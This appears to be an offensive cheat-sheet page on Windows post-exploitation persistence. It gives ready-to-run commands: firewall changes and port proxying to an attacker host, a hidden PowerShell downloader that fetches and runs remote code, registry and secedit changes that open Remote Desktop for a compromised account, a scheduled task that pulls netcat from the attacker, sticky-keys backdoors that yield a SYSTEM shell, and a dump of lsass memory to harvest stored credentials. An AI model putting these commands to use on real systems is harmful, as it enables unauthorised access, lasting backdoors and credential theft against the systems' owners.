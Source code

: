 <!-- Code for collapse and expand -->
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:


```
c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"
```





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Scheduling tasks to run under special conditions

One can schedule tasks to run under certain conditions such as when a user logs into the computer or when the computer is idle
with the schtasks command. This can be done by any user and includes the following additional conditions which can come in handy:

* ONIDLE -> Run a command once the system enters an idle state
* ONLOGON -> Run a command when a user logs into the system
* ONSTART -> Run a command when the system starts up
 
If you would like more information on the various command line options for this tool, Microsoft describes them in great
detail at: [https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create](https://technet.microsoft.com/en-us/library/cc725744.aspx#BKMK_create)



### Sticky Keys (Requires reboot)

Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`.



Some caveats:

* If NLA (Network Layer Authentication) is enabled, this won't work

* If RDP (Remote Desktop Protocol) is disabled, this won't work





### Sticky Keys (No reboot)

This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place.

* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`

* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)

* For the "Debugger" REG_SZ, make it have a value of your binary

* Press SHIFT 5 times and your binary should be executed

### Process Dumping For Passwords
If you have access to a server and one of the user's usernames and passwords and can create shares on that computer,
you may be able to create a scheduled task which runs procdump.exe to dump all of the memory of the lsass process,
thus gaining access to all of the stored credentials on the targeted computer:

```
net use \\target server /user:DOM\username password
copy procdump.exe \\targetserver\c$
copy procdump.bat \\targetserver\c$
procdump.exe -ma lsass creds.dump
at \\targetserver 13:37 C:\procdump.bat
copy \\targetserver\c$\targetserver.dmp .
```
